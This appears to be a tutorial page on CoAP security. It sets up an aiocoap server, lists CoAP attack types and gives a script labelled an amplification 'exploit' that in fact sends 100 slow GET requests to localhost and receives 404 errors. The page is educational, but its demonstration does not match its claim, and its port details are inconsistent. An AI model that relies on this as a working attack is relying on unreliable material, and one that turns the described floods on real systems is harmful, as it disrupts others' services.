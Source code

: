 # Constrained Application Protocol (CoAP) 

## Installation
To install a CoAP (Constrained Application Protocol) server with logging enabled, Here are general steps for setting up a CoAP server using a popular library in Python called aiocoap, which is an asynchronous CoAP framework:

## Prerequisites
+ Python 3.7 or higher
+ pip (Python package installer)
+ It imports the necessary modules from Python's asyncio library for asynchronous programming and various components from the aiocoap library.

## CoAP Server Installation
```python
import aiocoap.resource as resource
import aiocoap
import asyncio
import logging

logging.basicConfig(level=logging.DEBUG, format='%(asctime)s %(levelname)s:%(message)s')

class BasicResource(resource.Resource):
    async def render_get(self, request):
        logging.info("Received a GET request")
        return aiocoap.Message(payload=b"Hello World!")

root = resource.Site()
root.add_resource(['hello'], BasicResource())

async def main():
    protocol = await aiocoap.Context.create_server_context(root)
    logging.info("Server Started")
    await asyncio.get_running_loop().create_future()

if __name__ == "__main__":
    asyncio.run(main())
```
## Output
```bash
2024-04-22 10:33:11,725 DEBUG:Using selector: EpollSelector
2024-04-22 10:33:11,790 INFO:server listening on [::]:8683
2024-04-22 10:33:11,790 INFO:server listening on 0.0.0.0:8683
2024-04-22 10:33:11,794 DEBUG:Server ready to receive requests
2024-04-22 10:33:11,794 INFO:Server Started
```
# Attacks
For the Constrained Application Protocol (CoAP), various types of attacks are identified, as detailed in the provided document. Here's a list of attacks on the CoAP protocol:

1. **Regular Expression Denial of Service (ReDoS)**: This attack exploits inefficiencies in regular expression processing algorithms to create service denials.
   
2. **IP Address Spoofing**: This involves altering the sending IP address within UDP packets to impersonate another device or service.
   
3. **Replay Attacks**: This type of attack captures legitimate messages and resends them to perform unauthorized operations.
   
4. **Relay Attacks**: These attacks involve capturing and retransmitting messages in real-time, which can be used to bypass authentication mechanisms.
   
5. **Injection Attacks**: These occur by intercepting a TCP communication to inject malicious TCP segments into legitimate packets, carrying modified CoAP messages that interfere with server operations.
   
6. **CoAP Amplification DoS Attack**: Attackers send multiple CoAP GET requests to create large responses from small requests, thereby straining network resources and amplifying traffic.

## Exploit
```python
import asyncio
from aiocoap import *

async def main():
    context = await Context.create_client_context()
    for _ in range(100):
        request = Message(code=GET, uri="coap://127.0.0.1/amplifiable_resource")
        try:
            response = await context.request(request).response
            print('Result: %s\n%r' % (response.code, response.payload))
        except Exception as e:
            print('Failed to fetch resource:')
            print(e)
        await asyncio.sleep(1)

if __name__ == "__main__":
    asyncio.get_event_loop().run_until_complete(main())
```
## Func
The function uses a loop (for _ in range(100)) to send 100 CoAP GET requests to the URI coap://127.0.0.1/amplifiable_resource. This URI points to a resource presumably hosted on the local machine (127.0.0.1)

## Output
```bash
2024-04-22 10:33:11,794 INFO:Server Started
2024-04-22 10:33:14,877 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac3e5d10: CON GET (MID 49663, token 492f) remote <UDP6EndpointAddress 127.0.0.1:51724 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:33:14,878 DEBUG:New unique message received
2024-04-22 10:33:14,878 INFO:Render request raised a renderable error (NotFound()), responding accordingly.
2024-04-22 10:33:14,878 DEBUG:Sending message <aiocoap.Message at 0x7f14ac02cd90: ACK 4.04 Not Found (MID 49663, token 492f) remote <UDP6EndpointAddress 127.0.0.1:51724 (locally 127.0.0.1%lo)>>
2024-04-22 10:39:40,034 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac02cd90: CON GET (MID 44823, token 7d39) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:39:40,034 DEBUG:New unique message received
2024-04-22 10:39:40,035 INFO:Render request raised a renderable error (NotFound()), responding accordingly.
2024-04-22 10:39:40,035 DEBUG:Sending message <aiocoap.Message at 0x7f14ac02d110: ACK 4.04 Not Found (MID 44823, token 7d39) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>>
2024-04-22 10:39:41,038 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac02d1d0: CON GET (MID 44824, token 7d3a) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:39:41,038 DEBUG:New unique message received
2024-04-22 10:39:41,038 INFO:Render request raised a renderable error (NotFound()), responding accordingly.
2024-04-22 10:39:41,038 DEBUG:Sending message <aiocoap.Message at 0x7f14ac02d650: ACK 4.04 Not Found (MID 44824, token 7d3a) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>>
2024-04-22 10:39:42,041 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac02d290: CON GET (MID 44825, token 7d3b) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:39:42,041 DEBUG:New unique message received
```
7. **Reflective Denial of Service (DoS)**: Employing legitimate requests to third-party servers that are then amplified and reflected back to the victim .

These attacks exploit various aspects of the CoAP protocol and its implementations, highlighting the importance of robust security measures to mitigate these threats.